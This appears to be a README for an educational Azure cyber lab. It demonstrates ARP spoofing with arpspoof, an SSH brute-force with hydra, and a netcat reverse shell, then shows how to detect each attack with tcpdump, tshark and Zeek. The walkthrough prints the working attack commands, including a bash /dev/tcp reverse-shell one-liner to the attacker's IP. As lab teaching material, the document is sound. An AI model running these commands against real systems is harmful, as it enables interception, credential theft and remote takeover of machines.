








# 🛠️ Part 2: Simulating Attacks and Analyzing Traffic

This second part of the project uses the infrastructure created in [Part 1: Building the Cyber Lab Environment](README_PART1.md) to demonstrate several cyberattacks in a controlled Azure environment, showcasing both offensive and monitoring/detection techniques. **These exercises are designed for educational purposes only.**

---

### 🧰 Tools Involved
  - **On Kali Linux (Attacker)**:
    - `arspoof` :
    - `hydra`: for brute force attacks on services like SSH or FTP
    - `dns2tcp`:
    - `netcat`:

  - **On Ubuntu (Monitor/Target)**:
    - ####  `tcpdump` :
      - It's a command-line tool for capturing and inspecting network traffic in real time.
      - It listens on a network interface (e.g., eth0) and prints out packet information as it sees it. We can use filters (like port numbers, protocols, IPs) to focus on specific traffic too.
      - We'll use this tool to capture raw packets into `.pcap` files for deeper analysis later.

    - #### `wireshark` :
      - It's an open-source network protocol analyzer. It captures and displays packets of data that flow through a network, allowing the user to inspect what’s happening at a very detailed level (from the Ethernet frame all the way up to the application data).
      - **GUI for Packet Analysis:** We'll use this so we can visually analyze the `.pcap` files generated by `tcpdump`.

    - #### `zeek` :
      - Zeek is a powerful network analysis framework designed for detecting suspicious activity on a network. It’s used in security operations centers (SOCs).
      - It passively monitors traffic like `tcpdump`, but instead of just logging raw packets, it analyzes them and writes detailed logs:
        - `conn.log` → all connection summaries
        - `http.log`, `ssh.log`, `dns.log`, etc. → protocol-specific logs
        - `notice.log ` → alerts about suspicious behavior

---

### 🔗 Connecting to the VMs

To perform attacks or monitor network traffic, we’ll need terminal access to both virtual machines (Kali and Ubuntu). 

Since Azure Cloud Shell only allows one terminal session per VM at a time, it's recommended to connect to your VMs via SSH from your local computer.

#### Before connecting, make sure you have:

- The private SSH key (`key.pem`) that matches the public key used in `terraform.tfvars`.

💡 **Important:** Make sure your SSH key file has correct permissions:

```
chmod 600 key.pem
```
##

### 🔐 Connect to the VMs
To connect to a VM, open a terminal on your local computer and use the following command:

```
ssh -i path/to/key.pem azureuser@20.169.229.158
```
- Replace  `path/to/key.pem ` with the path to your private key file.

- `azureuser` is the admin username used in `terraform.tfvars`, if you changed it replace it here.
- Replace `20.169.229.158` with the public IP address of one of the VMs (output from Terraform).

Repeat this process to connect to the other VM or to open multiple terminal windows to run commands in parallel.

---

## ⚔️ Attack Scenarios


### 👁️‍🗨️ Monitoring Setup

Before running each attack, we will first configure our monitoring tools. This ensures that the traffic is properly captured and logged for analysis. By repeating this setup for every attack, we can:

- Keep evidence isolated per technique
- Make analysis easier and logs cleaner
- Create smaller and more focused .pcap files

This practice is especially important in labs like this one, where the goal is to learn and analyze each attack’s behavior individually.

- On a terminal connected to the Ubuntu VM, we run:

  ```
  sudo tcpdump -i eth0 -w tcp_conn.pcap
  ```
  - We'll name each output file based on the scan or attack being performed, so that the logs are organized and easier to identify later.

  **What this does:**

  - `-i eth0` → Listen on interface **eth0** (the VM’s main network interface. We can always check using `ip link` or `ifconfig`, to be sure which one is actively transmitting and receiving data).

  - `-w tcp_conn.pcap` → Write the raw captured packets directly to a file named `tcp_conn.pcap` (`tshark`, Wireshark's terminal version can also be used to do this). 

  - No filters applied → Captures all traffic on that interface.
  -  `tcpdump` will start capturing traffic and writing it to the file `tcp_conn.pcap` .


- On another terminal connected to the Ubuntu VM, run: 
  ```
  sudo zeek -i eth0
  ```
  - This will run Zeek on the **eth0** interface.
  - Zeek passively monitors the network interface.
  - It will start logging immediately in the default directory (`/opt/zeek/logs/current/`).

- To see the log as it grows on real time, we can run on another terminal:
  ```
  tail -f /opt/zeek/logs/current/conn.log
  ```
##

### 🤝 TCP Handshake 
To understand how TCP Connect and SYN scans work (and SYN Floods, the attack we´ll perform afterwards), it’s important to know how a typical TCP connection is established.

It´s purpose is to establish a reliable connection between a client and a server to ensure that both sides are ready to communicate before any data is transmitted. This process is also known as the **3-way handshake**:

**1. SYN (Synchronize)  →** The client sends a SYN packet to the server to request a connection.
   
**2.  SYN-ACK (Synchronize-Acknowledge)  →** If the port is open, the server responds with a SYN-ACK.  The ACK flag acknowledges the client's initial SYN, and the SYN flag initiates the server's connection request back to the client.
   
**3.  ACK (Acknowledge) →** The client sends back an ACK, acknowledging the server's SYN-ACK to complete the handshake. Both client and server are now aware of the connection and ready to transmit data.

💡 If any of these steps fail, the connection does not fully establish. This behavior is what scanners like nmap exploit to detect open, closed, or filtered ports.

##
### 🕵️ 1. ARP Spoofing / Man-in-the-Middle (MITM) using Arpspoof
##

#### What is ARP?
 **ARP (Address Resolution Protocol)** is a communication protocol used in local networks to map **IP addresses** (like 10.0.0.4) to **MAC addresses** (**unique** hardware addresses like 00:1A:2B:3C:4D:5E assigned to network interfaces). This is essential for communication within a local network. ARP acts as a translator between the logical IP addresses used for routing and the physical MAC addresses used by network hardware. 

 **Important characteristics:**

- Devices maintain an ARP table to keep track of these mappings.

- Usually, devices use ARP to contact the router or gateway that enables them to connect to the Internet.
- Unfortunately, ARP is **unauthenticated**, meaning any device can send fake ARP messages.

##

####  ARP Spoofing
 In an **ARP spoofing attack**, an attacker tricks a victim (by sending forged ARP messages) into thinking the attacker’s MAC address is the gateway (router), and viceversa. This allows the attacker to:

  - Intercept and be in the middle of all communications **(Man-in-the-Middle)**

  - Launch further attacks like credential theft

💡 This kind of attack is local network based, meaning both machines need to be on the same subnet.
##
#### IP Fowarding and ARP Spoofing
IP forwarding allows the attacker (Kali VM) to act like a router — forwarding traffic from one device to another. **IP forwarding essentially means: “read and pass it along.”**

**Why does it matter with ARP Spoofing?:**

- When doing ARP spoofing (man-in-the-middle), both the victim and the gateway send their traffic to the attacker's machine, thinking it's the other.

- But unless the attacker forwards that traffic to the real destination (e.g., the gateway), the victim will lose connection (because packets get stuck on the attacker).

##

### 👁️‍🗨️ Continue Monitoring on Ubuntu VM

1. Run the commands listed above on Monitoring Setup, minus Zeek.
2. We´ll name the file `tcpdump` is going to write on: `arp_spoofing.pcap`.

> _Zeek, focuses on Layer 3 (network) and Layer 4+ (transport/application) protocols, whereas ARP is a Layer 2 protocol (data link layer). This means ARP traffic is not visible or analyzed by default in Zeek, unless it's explicitly enabled or scripted for._

##

### ⚔️ Performing the Attack:

- Run `ip route` on any VM to check the ip of the default gateway:

**IP Fowarding:**
- On a terminal connected to the Kali VM, run the following command:
  ```
  echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward
  ```
  **Explanation:**

  - `echo 1` : Outputs the value 1 to standard output. In this context, 1 means "enable" (as in enabling a setting).

  - `|` : The pipe sends the output of echo 1 (which is just 1) as input to the next command, sudo tee.

  - `sudo tee /proc/sys/net/ipv4/ip_forward`: 

    - Uses `sudo` to run the command with superuser privileges (required to modify system settings).

    - `tee` is used to write input to a file (in this case, /proc/sys/net/ipv4/ip_forward).

    - The file /proc/sys/net/ipv4/ip_forward is a special kernel parameter in Linux. Writing 1 to this file **enables packet forwarding on the system**.


**Run arpspoof:** 
- After enabling ip fowarding, run the following command:

  ```
  sudo arpspoof -i eth0 -t 10.0.1.5 10.0.1.1
  sudo arpspoof -i eth0 -t 10.0.1.1 10.0.1.5
  ```
  **What it does:**

    - `sudo`: needs root to modify ARP tables.

    - `arpspoof` : tool that sends fake ARP responses.

    - `-i eth0` :  the network interface being used.

    - `10.0.1.5` : private ip from the Ubuntu VM.

    - `10.0.1.1` : default gateway.


  **Why two commands?**

    - **First one:** tell the victim “Hey, I’m the gateway”

    - **Second one:** tell the gateway “Hey, I’m the victim”

  💡 This way, both sides send their traffic to the Kali VM, thinking it's the other.


- Now the Kali VM is in the middle, and can sniff traffic with:
  ```
  sudo tcpdump -i eth0
  ```
##
#### While Running the Attack...
  - On a terminal connected to the Ubuntu VM, try pinging both the Kali VM and Google's DNS (8.8.8.8). This helps generate ARP traffic that can be captured and analyzed later.
  
    ```
    ping 10.0.1.4 -c 2
    ```
    ```
    ping 8.8.8.8 -c 2
    ```
  - These pings also help confirm that IP forwarding on Kali is working correctly. If the Ubuntu VM is still able to reach external addresses like 8.8.8.8, it means Kali is successfully forwarding packets between the victim and the gateway. 
  

    ```
    azureuser@ubuntu-vm:~$ ping 10.0.1.4 -c 2
    PING 10.0.1.4 (10.0.1.4) 56(84) bytes of data.
    64 bytes from 10.0.1.4: icmp_seq=1 ttl=64 time=1.71 ms
    64 bytes from 10.0.1.4: icmp_seq=2 ttl=64 time=0.972 ms
    --- 10.0.1.4 ping statistics ---
    2 packets transmitted, 2 received, 0% packet loss, time 1002ms
    rtt min/avg/max/mdev = 0.972/1.340/1.709/0.368 ms
    
    azureuser@ubuntu-vm:~$ ping 8.8.8.8 -c 2
    PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.
    64 bytes from 8.8.8.8: icmp_seq=1 ttl=112 time=1.93 ms
    64 bytes from 8.8.8.8: icmp_seq=2 ttl=112 time=1.84 ms
    --- 8.8.8.8 ping statistics ---
    2 packets transmitted, 2 received, 0% packet loss, time 1002ms
    rtt min/avg/max/mdev = 1.842/1.884/1.926/0.042 ms
    ```


##
### 📊 Results and Analysis After an ARP Spoofing

- Once you’ve finished generating traffic (e.g., pinging), stop `tcpdump` with `Ctrl + C`.

### Attacker's Perspective:

  **ARP Spoofing Output:**
  
  ```
  ┌──(azureuser㉿kali)-[~]
  └─$ sudo arpspoof -i eth0 -t 10.0.1.5 10.0.1.1
  sudo arpspoof -i eth0 -t 10.0.1.1 10.0.1.5
  
  0:d:3a:8f:cc:a8 12:34:56:78:9a:bc 0806 42: arp reply 10.0.1.1 is-at 0:d:3a:8f:cc:a8
  0:d:3a:8f:cc:a8 12:34:56:78:9a:bc 0806 42: arp reply 10.0.1.1 is-at 0:d:3a:8f:cc:a8
  0:d:3a:8f:cc:a8 12:34:56:78:9a:bc 0806 42: arp reply 10.0.1.1 is-at 0:d:3a:8f:cc:a8
  0:d:3a:8f:cc:a8 12:34:56:78:9a:bc 0806 42: arp reply 10.0.1.1 is-at 0:d:3a:8f:cc:a8
  ...

  ```
  
  **Let’s break this line down:**
  ```
  0:d:3a:8f:cc:a8 12:34:56:78:9a:bc 0806 42: arp reply 10.0.1.1 is-at 0:d:3a:8f:cc:a8
  ```
  
  | Part                             | Meaning                                                       |
  | -------------------------------- | ------------------------------------------------------------- |
  | `0:d:3a:8f:cc:a8`                | **Source MAC** address (Kali VM’s MAC)                        |
  | `12:34:56:78:9a:bc`              | Kali´s MAC in disguise (spoofed)                              |
  | `0806`                           | Ethernet type — **`0x0806` = ARP**                            |
  | `42`                             | Packet length in bytes                                        |
  | `arp reply`                      | Type of ARP message                                           |
  | `10.0.1.1 is-at 0:d:3a:8f:cc:a8` | ARP message content: "`10.0.1.1` is at the (attacker’s) MAC"  |

  - This poisons the victim’s ARP cache and causes traffic intended for the gateway to be redirected through the attacker — **enabling a Man-in-the-Middle attack.**
  
  **Kali VM's Real MAC Address**:
  ```
  ┌──(azureuser㉿kali)-[~]
  └─$ ip link show eth0
  2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP mode DEFAULT group qlen 1000
      link/ether 00:0d:3a:8f:cc:a8 brd ff:ff:ff:ff:ff:ff
   ```   
  
  This command's output confirms that the MAC address of the Kali VM is `0:d:3a:8f:cc:a8`.

### Target's Perspective:

**Analyzing `arp_spoofing.pcap` and Filtering ARP Packets with `tshark`:**
- To analyze the ARP Spoofing attack from the victim’s point of view, we start by inspecting only the ARP packets captured in the `.pcap` file. This helps us focus on the address resolution activity during the attack.

We use the following command:
```
tshark -r arp_spoofing.pcap -Y "arp"
```
**Explanation:**

- `-r` arp_spoofing.pcap: Reads the packet capture file.

- `-Y "arp"`: Displays only the packets that belong to the ARP protocol.

This filtered view makes it easier to spot abnormal ARP behavior, such as forged replies.

**Output:**

   
  ```
  azureuser@ubuntu-vm:~$ tshark -r arp_spoofing.pcap -Y "arp"

  113  16.942700 Microsof_2f:f5:00 → Broadcast    ARP 42 Who has 10.0.1.4? Tell 10.0.1.5
  114  16.943066 12:34:56:78:9a:bc → Microsof_2f:f5:00 ARP 42 10.0.1.4 is at 12:34:56:78:9a:bc
  766 100.543456 Microsof_2f:f5:00 → Broadcast    ARP 42 Who has 10.0.1.1? Tell 10.0.1.5
  767 100.543709 Microsof_2f:f5:00 → Broadcast    ARP 42 Who has 10.0.1.1? Tell 10.0.1.5
  768 100.544278 12:34:56:78:9a:bc → Microsof_2f:f5:00 ARP 42 10.0.1.1 is at 12:34:56:78:9a:bc
  769 100.544278 12:34:56:78:9a:bc → Microsof_2f:f5:00 ARP 42 10.0.1.1 is at 12:34:56:78:9a:bc
  863 113.011002 Microsof_2f:f5:00 → Broadcast    ARP 42 Who has 10.0.1.4? Tell 10.0.1.5
  865 113.011502 12:34:56:78:9a:bc → Microsof_2f:f5:00 ARP 42 10.0.1.4 is at 12:34:56:78:9a:bc
  1229 157.865869 Microsof_2f:f5:00 → 12:34:56:78:9a:bc ARP 42 Who has 10.0.1.4? Tell 10.0.1.5
  1230 157.866846 12:34:56:78:9a:bc → Microsof_2f:f5:00 ARP 42 10.0.1.4 is at 12:34:56:78:9a:bc
 ```

**Viewing in Wireshark**

- In addition to viewing the ARP traffic directly in the terminal, transferring the `.pcap` file locally and opening it on Wireshark can provide a clearer visualization of the analized log.

- The screenshot below shows the same ARP spoofing exchange—highlighting how the victim believes the gateway (`10.0.1.1`) is at the attacker's MAC address.
  


**Analyzing the Output:**


From the victim’s perspective (`10.0.1.5`), several ARP requests are made for:

- `10.0.1.4`: the attacker's IP.

- `10.0.1.1`: the legitimate gateway IP.

In each case, the replies come from the MAC address `12:34:56:78:9a:bc`, which responds on behalf of both `10.0.1.4` and `10.0.1.1`.

- Seeing the same MAC address associated with two different IPs (gateway and attacker) is a major red flag. **MAC addresses are supposed to be unique identifiers tied to a single physical or virtual network interface. This duplication is a key indicator of ARP spoofing.**


- By poisoning the victim’s ARP cache with this fake mapping, the attacker tricks the victim into sending traffic meant for the gateway to the attacker’s machine instead. **This enables a Man-in-the-Middle (MITM) attack**, allowing the attacker to intercept or forward the traffic at will.


##
### 🔐 2. Brute-force SSH using Hydra
##

The goal is to simulate a brute-force login attack by trying multiple passwords against the SSH service on the Ubuntu VM.

#### What is a Brute-force Attack?

A brute-force attack is a trial-and-error method used to gain unauthorized access to a system by systematically trying a large number of possible username and password combinations. The goal is to eventually guess the correct credentials through persistence.

- In the context of SSH (Secure Shell), a brute-force attack attempts to log in to the target machine by repeatedly trying different passwords for a known username, often using a wordlist that contains thousands or millions of common or leaked passwords.

- These attacks are **noisy, easily detectable** and often blocked but **still effective in misconfigured systems.**

- and can be mitigated with rate-limiting, account lockout mechanisms, or intrusion detection systems.

##
#### 📄 Password List
Before launching the brute-force attack, it's essential to have a password wordlist available. In this lab, we use a **custom wordlist** that is automatically created on the **Kali Linux VM** during provisioning. This wordlist is deployed via the Ansible playbook and saved at `/opt/sample-passwords.txt`.

The file includes a mix of weak, commonly used passwords and some custom entries. **Including the actual SSH password** configured for the Ubuntu target, ensuring the attack can succeed within a few attempts.

##

### 👁️‍🗨️ Continue Monitoring on Ubuntu VM

1. Run the commands listed above on Monitoring Setup.
2. We´ll name the file `tcpdump` is going to write on: `brute_force.pcap`.

##
### ⚔️ Performing the Attack:

On a terminal connected to the Kali VM, run the following command:
```
hydra -l azureuser -P /opt/sample-passwords.txt ssh://20.185.217.167
```
- `20.185.217.167` is the public ip address of the Ubuntu VM. 
- Hydra will attempt many SSH login attempts in a rapid succession using the passwords from the wordlist. If any attempt succeeds, it will be shown in the output.

**Command Breakdown:**

| Flag                            | Meaning                                                                  |
| ------------------------------- | ------------------------------------------------------------------------ |
| `-l azureuser`                  | Attempt to login as user "azureuser"                                     |
| `-P /opt/sample-passwords.txt`  | Custom wordlist                                                          |
| `ssh://...`                     | Specifies the protocol (SSH) and the target IP address                   |

> **Note:** In this example, we're targeting the public IP address of the Ubuntu VM (20.185.217.167) to simulate an external attacker scenario. However, Hydra could also be used against the private IP address (10.0.1.5).

> ⚠️**Important (Azure Cloud Consideration):**
When running brute-force tools like Hydra in cloud environments such as Azure, limiting the number of login attempts is important to avoid triggering automated security responses. Azure may temporarily block access or disable the VM's SSH service if it detects aggressive login behavior that resembles abuse or malicious traffic. This is why the custom wordlist doesn't have that many entries. The rate of attempts can be controlled using flags like -t (number of parallel connections). 


##
### 📊 Results and Analysis After a Brute Force Attack
- Stop Zeek and tcpdump using Ctrl + C once the attack completes.

### Attacker's Perspective:

The following output shows the result of launching a brute-force attack using Hydra from the Kali VM:

  **Hydra's Output:**
  ```
  ┌──(azureuser㉿kali)-[~]
  └─$ hydra -l azureuser -P /opt/sample-passwords.txt ssh://20.185.217.167
  Hydra v9.5 © 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
  Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-07-21 21:59:20
  [WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
  [DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
  [DATA] attacking ssh://20.185.217.167:22/
  [22][ssh] host: 20.185.217.167   login: azureuser   password: Cyber@1234xyz
  1 of 1 target successfully completed, 1 valid password found
  Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-07-21 21:59:29
  ```

  To better visualize the result, here’s a screenshot of the terminal showing the exact moment the password was found:

  

  - The attack was successful: **Hydra correctly identified the SSH password `Cyber@1234xyz`** for the user `azureuser` after trying several entries from the custom wordlist.

  - The success message `1 valid password found` confirms that the credentials were compromised.


### Target's Perspective:

After the attack, we analyze the logs and traffic to detect signs of brute-force behavior.

#### Detecting SSH Brute Force Using Logs and Packet Capture

#### Analyzing Zeeks's Logs:

 `ssh.log`, records all attempted connections to that service.

 This command will filter `ssh.log` to show connection attempts with a cleaner and easier to read format:

 ```
 zeek-cut ts id.orig_h id.resp_h user auth_success < ssh.log | while read line; do
  ts=$(echo "$line" | awk '{print $1}')
  rest=$(echo "$line" | cut -d ' ' -f2-)
  echo "$(date -d @"$ts" "+%Y-%m-%d %H:%M:%S") $rest"
 done
 ```

 **What it does:**
  - `zeek-cut ts id.orig_h id.resp_h user auth_success < ssh.log`: Extracts specific fields from the `ssh.log` file: 
    
    - `ts`: the timestamp (in UNIX epoch format with fractional seconds) 
    - `id.orig_h`: source IP (the initiator of the SSH connection)
    - `id.resp_h`: destination IP (the SSH server) 
    - `user`: the username used in the login attempt
    - `auth_success`: whether authentication was successful (`T` for true, `F` for false, `-` if not determined)
 
  - `while read line; do ... done`: Loops through each line of output.
  - `ts=$(...)`: Extracts the timestamp field from each line. 
  - `date -d @"$ts"`: Converts the UNIX timestamp to an easier to read format (`YYYY-MM-DD HH:MM:SS`).

 #### Output:

  - A screenshot of the filtered `ssh.log` output is included for visual reference:

  

  - Here’s what we see in the output:
  
  | Timestamp           | Source IP      | Destination IP | Username | Auth Success |
  | ------------------- | -------------- | -------------- | -------- | ------------ |
  | 2025-07-21 21:59:21 | 20.169.229.158 | 10.0.1.5       | -        | T            |
  | ...                 | 20.169.229.158 | 10.0.1.5       | -        | -            |
  | ...                 | 20.169.229.158 | 10.0.1.5       | -        | F            |
  | ...                 | 20.169.229.158 | 10.0.1.5       | -        | F            |
  | ...                 | 20.169.229.158 | 10.0.1.5       | -        | F            |


#### Output Analysis:

- The attacker (`20.169.229.158`) made around 17 SSH login attempts against the victim VM (`10.0.1.5`).

- One line shows a `T`, meaning **a successful login attempt occurred**, this confirms the password was eventually guessed.

- Some entries have `auth_success` as `-`, likely indicating that Zeek could not determine the result of the login attempt (often due to early connection termination or incomplete sessions).

- All attempts occurred around the same second (`21:59:21`), suggesting an **automated attack with very fast consecutive attempts**, characteristic of **brute-force behavior.** 


#### Tcpdump pcap File Analysis: `brute_force.pcap`

To investigate the attack from the perspective of raw network traffic, we analyze the `.pcap` file captured with `tcpdump` using the following `tshark` command:

```
tshark -r brute_force.pcap -Y "tcp.dstport == 22 and tcp.flags.syn == 1" -T fields -e ip.src | sort | uniq -c | sort -nr
```
| Component  | Explanation                                                                                                                                |
| ---------- | ------------------------------------------------------------------------------------------------------------------------------------------ |
| `-Y "tcp.dstport == 22 and tcp.flags.syn == 1"` | Applies a **display filter** to show only TCP SYN packets destined for port 22 (SSH). These packets represent **new SSH connection attempts**. |
| `-T fields -e ip.src` | Outputs only the **source IP address** field from each matching packet |
| `sort`     | Sorts the list of source IPs **alphabetically**. This is necessary for `uniq` to properly group identical lines together.                  |
| `uniq -c`  | Counts the number of **consecutive repeated lines** (in this case, how many times each IP appears). It outputs the count alongside the IP. |
| `sort -nr` | Sorts the output **numerically** in **reverse order** so that IPs with the **highest number of connection attempts appear first**.         |

- This combination of `sort`, `uniq -c`, and `sort -nr` helps defenders **quickly identify the most aggressive sources**, which is key in detecting brute-force attempts or scanning activity.

#### Output Analysis:
```
17   20.169.229.158
```

This tells us:

- The IP `20.169.229.158` (Kali attacker VM) sent **17 SYN packets to TCP port 22** on the monitored machine.

- Since a SYN packet is used to initiate a TCP connection, this count reflects **17 separate SSH connection attempts**. This corroborates the brute-force behavior observed in the `Zeek` logs and `Hydra` output.


##
### 🔁 3. Remote Shell Attack (Reverse Shell) using Netcat
##

In the previous scenario, we simulated a **brute force attack against SSH**, which attempts to gain unauthorized access by repeatedly trying username/password combinations. While this approach is conceptually simple, and could work against poorly configured systems, **modern and well-configured systems are typically protected against such attacks** through mechanisms like:

- **Fail2Ban** or similar tools that detect repeated failed login attempts and block the source IP. 

- **Rate limiting**, **two-factor authentication**, and **strong password policies**.
 
- **Logging and monitoring** tools that can alert administrators of suspicious login behavior.

Because of these protections, brute force attacks have **low success rates** and are **easily detected**. A more **stealthy and realistic technique** to gain unauthorized remote access is the use of a **reverse shell**.

##

#### What is Reverse Shell?

A **reverse shell** is a technique where the **attacker gains remote access to a target machine** by making the **victim machine initiate an outbound connection back to the attacker**.

Unlike traditional remote access (like SSH), where the attacker connects directly to the victim, in a reverse shell the roles are reversed:

- The **attacker sets up a listener** on their own machine (e.g., using `netcat`).

- The **victim unknowingly runs a malicious command or script** (often hidden in a phishing email, fake installer, macro-enabled document, etc.).

- That command **opens a shell session and connects back** to the attacker's listener. 

- Once connected, the attacker can execute commands on the victim's machine **as if they were physically present**.

##
#### 🎣 Why Would the Victim Initiate the Connection?

Of course, a system wouldn't initiate a reverse shell **intentionally**. The attacker typically relies on **social engineering** or **exploits** to **trick the user or system** into executing a malicious command.

In our case, we simulate this by manually running the reverse shell on the victim.

These commands are **often embedded in malicious files, scripts, or payloads**, and once triggered, **the victim’s system connects back to the attacker**, bypassing firewalls that might block inbound connections.

This makes reverse shells particularly effective, since:

- **Outbound traffic is often less restricted** than inbound traffic.

- It **avoids detection** by appearing as a legitimate outgoing connection.

- It **grants full shell access**, allowing the attacker to explore, escalate privileges, or install persistence mechanisms.

##

### 👁️‍🗨️ Continue Monitoring on Ubuntu VM

1. Run the commands listed above on Monitoring Setup.
2. We´ll name the file `tcpdump` is going to write on: `reverse_shell.pcap`.

##
### ⚔️ Performing the Attack:

To simulate a reverse shell, we'll use **Netcat** (`nc`), a powerful networking tool available by default in Kali Linux and most Unix-like systems. 

#### Attacker (Kali) - Set up a listener 

On the **attacker’s machine (Kali)**, we open a listener on port `4444`, waiting for incoming connections:
```
nc -lvnp 4444
```

**Explanation:**
- `-l`: Listen mode (wait for incoming connections).
- `-v`: Verbose output (shows connection info).
- `-n`: Do not resolve hostnames (faster, avoids DNS lookup).
- `-p 4444`: Specify the port number to listen on (4444 in this case).

#### Victim (Ubuntu) - Trigger the reverse shell 

On the **victim machine (Ubuntu)**, the following command is executed (simulating a malicious script or phishing attack):
```
bash -i >& /dev/tcp/10.0.1.4/4444 0>&1
```
**Explanation:**

- `bash -i`: Starts an interactive bash shell.

- `>& /dev/tcp/10.0.1.4/4444`: Redirects input and output to a TCP connection with the attacker’s IP (`10.0.1.4`) and port `4444`. 

- `0>&1`: Redirects standard input to the same as standard output — completing the shell redirection.

##

### 🔁 Reverse Shell: Attack Analysis

Once the reverse shell connection is successfully established, the attacker gains direct command-line access to the victim’s machine. Below is a breakdown of what this looks like in practice:

### Attacker's Perspective:
```
┌──(azureuser㉿kali)-[~]
└─$ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.0.1.5 42476

azureuser@ubuntu-vm:~$
```
- A connection is received from the victim's machine (`10.0.1.5`), indicating that the reverse shell has been initiated.

- The prompt `azureuser@ubuntu-vm:~$` confirms that the attacker now has an **interactive shell on the victim's system**.

<p>
  <em>A screenshot is included below to provide a visual reference of this interaction:</em><br>
  <br>
  
</p>


- This output confirms a **successful compromise**. The attacker now has **remote access to the victim’s system**, with the ability to execute commands as if they were sitting at the machine. This level of access poses a **severe security risk** — allowing the attacker to explore the file system, exfiltrate data, install malware, or escalate privileges.


#### Example Command: Identifying the System 

One of the first things an attacker might do is gather system information:
```
uname -a
```

- This command returns details about the operating system, kernel version, and architecture.

- The information helps the attacker **tailor further exploits** or identify known vulnerabilities for that specific system.

 _An example output is shown below for reference:_

 


### Victims's Perspective:

On the victim’s machine, once the reverse shell command is executed, the terminal appears to freeze or become unresponsive:

 

There’s **no output**, no confirmation, and no indication that a remote session has been initiated. This is because the input/output streams of the shell have been **redirected to the attacker’s system**.

